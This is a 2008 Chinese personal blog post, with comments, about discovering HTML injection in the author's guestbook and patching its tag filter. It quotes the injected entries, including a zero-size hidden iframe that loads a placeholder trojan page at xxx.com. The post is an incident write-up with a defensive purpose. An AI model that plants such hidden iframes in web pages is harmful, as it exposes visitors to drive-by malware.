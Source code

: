 title: 留言簿被别人测试挂马
id: 241
categories:
  - 编程相关
date: 2008-01-29 16:33:09
tags:
---

先戴个图给大家看看：
![iframe.JPG](https://asset-1258390188.cos.ap-shanghai.myqcloud.com/iframe.JPG)](https://asset-1258390188.cos.ap-shanghai.myqcloud.com01/iframe.JPG "iframe.JPG")

一看就知道是被别人测试iframe挂马了，看来留言簿的代码还是有问题，没有把该过滤的东西过滤掉。putty到DH主机上看看MYSQL数据库里面的东西：

最早有问题的留言是：

&nbsp;&lt;tr&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;th&nbsp;scope=&quot;col&quot;&gt;&amp;nbsp;&lt;/th&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;th&nbsp;scope=&quot;col&quot;&gt;&amp;nbsp;&lt;/th&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;th&nbsp;scope=&quot;col&quot;&gt;&amp;nbsp;&lt;/th&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;th&nbsp;scope=&quot;col&quot;&gt;&amp;nbsp;&lt;/th&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;th&nbsp;scope=&quot;col&quot;&gt;&amp;nbsp;&lt;/th&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;th&nbsp;scope=&quot;col&quot;&gt;&amp;nbsp;&lt;/th&gt;
&nbsp;&nbsp;&lt;/tr&gt;
&nbsp;&nbsp;&lt;tr&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&lt;/tr&gt;
&nbsp;&nbsp;&lt;tr&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&lt;/tr&gt;
&nbsp;&nbsp;&lt;tr&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&nbsp;&nbsp;&lt;td&gt;&amp;nbsp;&lt;/td&gt;
&nbsp;&nbsp;&lt;/tr&gt;

这个应该是测试是否可以提交HTML标签的。接下来的留言内容：

&nbsp;&lt;iframe&nbsp;src=http://www.xxx.com/muma.html&nbsp;width=0&nbsp;height=0&gt;&lt;/iframe&gt;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;

这段代码是被写入留言簿中的留言内容，产生一个高、宽为0的frame，经典的挂马行为。这个frame在opera下可以看到，很小的一块，但是IE里是看不到的，当然也只有IE才会中iframe的马。看看在Opera中的效果：
![d.jpg](https://asset-1258390188.cos.ap-shanghai.myqcloud.com/d.jpg)](https://asset-1258390188.cos.ap-shanghai.myqcloud.com01/d.jpg "d.jpg")

再看下面：

&lt;iframe&nbsp;src=http://www.google.com&nbsp;width=100&nbsp;height=100&gt;&lt;/iframe&gt;&nbsp;

产生一个高、宽为100的frame，里面是google主页。

&nbsp;&lt;iframe&nbsp;src=http://www.google.com&nbsp;&gt;&lt;/iframe&gt;&nbsp;&nbsp;&nbsp;

最后一个，未指定高、宽由页面自动匹配。

知道问题的原因了，看了看留言簿的代码，在关键字过滤处没有&lt;tr&gt;&nbsp;&lt;iframe&gt;这两个标签，现在加上去就好了。然后在MYSQL中删除这几条垃圾留言。OK

这个年头自己弄个网站不知道一天有多少人在打你的主意，你要是有点流量的话更是会被别人定上的，网上混的话还是安全第一。
## Comments

**[Amankwah](#2893 "2008-01-29 18:54:52"):** Opera好！这都发现了，不知道Firefox能看到不？

**[wind](#2894 "2008-01-29 19:03:55"):** 虾米叫挂马？

**[cocobear](#2895 "2008-01-30 13:39:42"):** TO:wind google 挂马 firefox不知道了，贴出来的图片没有边框，看不清楚，郁闷；

**[草儿](#2896 "2008-01-30 14:03:36"):** 汗…… 不知道GOOGLE有没有提示你“该网站含有恶意代码”，哈哈~

**[luguo](#2897 "2008-01-30 17:09:57"):** 很黄很暴力～～

**[cocobear](#2898 "2008-01-30 19:08:52"):** 没那么夸张，只是别人测试，你看那个地址也是不存在的 http://www.xxx.com/muma.html

**[cocobear](#2917 "2008-02-13 20:53:33"):** a b strong 等 :-)

**[cnenc](#2908 "2008-02-07 05:29:00"):** 以前就提示你,可惜你一直不当回事.

**[kongove](#2911 "2008-02-09 16:05:14"):** 能透露一下，还有那些关键标签没过滤呢？？

**[crazyfranc](#2902 "2008-02-01 20:57:58"):** 你可真细心啊。看来以后还是换OPERA好了。

